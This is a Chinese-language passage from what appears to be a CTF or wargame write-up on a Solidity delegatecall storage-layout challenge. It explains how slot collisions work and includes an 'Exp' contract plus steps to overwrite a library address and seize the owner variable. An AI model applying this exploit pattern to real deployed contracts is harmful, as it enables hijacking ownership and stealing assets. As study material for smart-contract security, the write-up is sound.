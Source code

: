发现` LibraryContract `中只有一个状态变量，会不会` delegatecall `改变状态变量时，只会根据"工具合约"（也就是上面的C合约）的` slot `布局来更改？

写个demo看一下：

![image-20250201040325328](./assets/image-20250201040325328.png)

所以，我们只需写一个合约，还原目标合约的布局，然后将` owner `更改为自己的地址即可；



### 攻击

``` solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Exp{
    address public timeZone1Library;
    address public timeZone2Library;
    address public owner;
    function setTime(uint256 _time) public {
        owner = msg.sender;
    }
}
```

首先将` timeZone1Library `改为我们的exp合约地址，然后再调用其即可；
